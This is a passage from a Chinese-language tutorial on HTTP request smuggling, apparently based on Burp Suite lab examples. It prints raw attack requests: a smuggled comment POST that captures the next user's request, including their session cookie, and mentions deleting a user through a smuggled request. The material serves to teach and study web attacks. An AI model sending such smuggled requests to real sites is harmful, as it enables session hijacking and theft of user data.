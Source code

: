 我们已经看到了删除指定用户的URL，所以我们再次修改请求包，成功删除指定用户

[<img class="aligncenter" alt="" data-original="https://p3.ssl.qhimg.com/t0156f8d81ea3939caa.png">](https://p3.ssl.qhimg.com/t0156f8d81ea3939caa.png)

### <a class="reference-link" name="%E7%AA%83%E5%8F%96%E5%85%B6%E4%BB%96%E7%94%A8%E6%88%B7%E7%9A%84%E8%AF%B7%E6%B1%82"></a>窃取其他用户的请求

有些应用程序包含任何允许存储和检索文本数据的功能，则可以利用HTTP请求走私来窃取其他用户的请求，原理与上一种利用方式相似，也是将其他用户的请求包作为参数值包含在响应中，burp官方以评论功能为例，即将请求包包含在用来存储评论内容的参数comment中，例如这样的提交评论的请求

```
POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 154
Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&amp;postId=2&amp;comment=My+comment&amp;name=Carlos+Montoya&amp;email=carlos%40normal-user.net&amp;website=https%3A%2F%2Fnormal-user.net

```

我们可以通过HTTP请求走私攻击将数据存储请求走私到后端，像这样

```
GET / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 324

0

POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 400
Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&amp;postId=2&amp;name=Carlos+Montoya&amp;email=carlos%40normal-user.net&amp;website=https%3A%2F%2Fnormal-user.net&amp;comment=

```

当后端服务器处理另一个用户的请求时，它会附加到走私的请求中，结果用户的请求被存储，包括受害用户的会话cookie和任何其他敏感数据，像这样

```
POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 400
Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&amp;postId=2&amp;name=Carlos+Montoya&amp;email=carlos%40normal-user.net&amp;website=https%3A%2F%2Fnormal-user.net&amp;comment=GET / HTTP/1.1
Host: vulnerable-website.com
Cookie: session=jJNLJs2RKpbg9EQ7iWrcfzwaTvMw81Rj
...
```
